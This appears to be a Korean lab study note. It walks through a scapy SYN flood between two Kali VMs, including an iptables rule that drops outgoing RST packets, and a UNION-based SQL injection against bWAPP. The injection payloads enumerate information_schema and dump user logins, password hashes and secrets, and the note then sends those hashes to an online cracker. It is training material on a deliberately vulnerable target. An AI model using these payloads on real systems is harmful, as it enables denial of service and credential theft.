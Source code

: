 ### scapy 

​	: 파이썬으로 작성된 패킷 조작도구

​	: 패킷 디코딩, 전송, 캠쳐, 수정 등 다양한 기능을 제공

 >>> tcp = TCP()
 >>> ip = IP()
 >>> packet = ip/tcp
 >>> packet.display()

==> tcp를 ip로 캡슐화 한다



#### Kali#2(공격자)----------------------------> Kali#1(희생자)

​											------SYN------->

​										<------SYN/ACK----

#### kali 1의 터미널 창에서 설정

root@kali:~# sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 1

==>syncookies를 0으로 바꿔 ack가 오지 않더라도 끊는것이 아닌 일정시간을 기다리게 한다

root@kali:~# service apache2 start
root@kali:~# service mysql start

#### kali 2의 터미널에서 실행

root@kali:~# iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP

root@kali:~# scapy

>>> ip = IP()
>>> tcp = TCP()
>>> ip.dst = "192.168.73.128"
>>> tcp.dport = 80
>>> tcp.sport = RandNum(1024, 65535)
>>> tcp.flags = "S"
>>> syn = ip/tcp
>>> send(syn, loop=True)



kali 1의 터미널 창에서 실행

root@kali:~# netstat -an | grep -i syn_recv	(grep -i 대소문자 없이 출력)

tcp6       0      0 192.168.73.128:80       192.168.73.129:15362    SYN_RECV   
tcp6       0      0 192.168.73.128:80       192.168.73.129:22850    SYN_RECV   
tcp6       0      0 192.168.73.128:80       192.168.73.129:2412     SYN_RECV   
tcp6       0      0 192.168.73.128:80       192.168.73.129:35680    SYN_RECV   
tcp6       0      0 192.168.73.128:80       192.168.73.129:32321    SYN_RECV   
tcp6       0      0 192.168.73.128:80       192.168.73.129:49919    SYN_RECV  



영화 조회 서비스 kali2->kali1의 서버로 http://192.168.73.128/bWAPP

[화면]

제목: man

[전달 <== 요청 파라미터를 통해서 전달]

sqli_1.php?title=**man**

[사용 --> 쿼리문을 만드는데 사용될 것으로 유추]

select * from movies where title =%**man**%

입력값이 전달 및 사용 과정에서 아무런 조작이 발생하지 않는지 궁금???

**##1** [화면]

제목 : **man**'

[전달 ← 요청 파라미터를 통해서 전달]

sqli_1.php?title=**man**'

[사용---> 쿼리문을 만드는데 사용될 것으로 유추]

select * from movies where title = '%**man**'%'

 ⇒ Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1

→ 백엔드 DB가 MySQL라는 정보와 화면에서 입력한 값은 그대로 쿼리 생성 및 실행에 사용된다.

**##2** 정상적인 쿼리가 반환하는 컬럼의 개수를 확인

select * from movies where title = '%**man' order by 1 --** %' ← 제목이 man으로 끝나는 영화를 조회해서 첫번째 컬럼으로 정렬

**##3** 정상적인 쿼리의 실행 결과에 공격자가 원하는 쿼리의 실행결과를 결합해서 화면에 출력

select * from movies where title = '%**man' UNION select 1,2,3,4,5,6,7 --** %'

![](C:\Users\student\TIL\캡처.PNG)

		- 1,2번은 정상적인 쿼리(man으로 끝나는 제목의 영화)
		- 3번은 공격자가 궁금해하는 쿼리의 결과
		- 화면출력을 위해서는 쿼리 실행결과에서 2,3,4,5번째 컬럼의 정보만 사용



**##4** MySQL의 시스템 테이블을 이용해서 사용자 정의 테이블의 정보를 조회

select * from movies where title = '%**man' UNION select 1,table_schema,table_name,4,5,6,7 from information_schema.tables --** %'

**##5** 테이블 이름이 users인 테이블이 가지고 있는 컬럼 정보를 조회

select * from movies where title = '%**man' UNION select 1,table_name,column_name,4,5,6,7 from information_schema.columns where table_name = 'users' --** %'

**##6** users테이블 id, login, password, email, secret 컬럼의 정보를 조회

select * from movies where title = '%**man' UNION select 1,id,login,password,concat(email, " : ", secret),6,7 from users --** %'

##7 패스워드 정보가 안전하게 저장되어있는지 확인

https://crackstation.net/ 에 위에서 찾은 해시값을 넣어보면 알 수 있다



















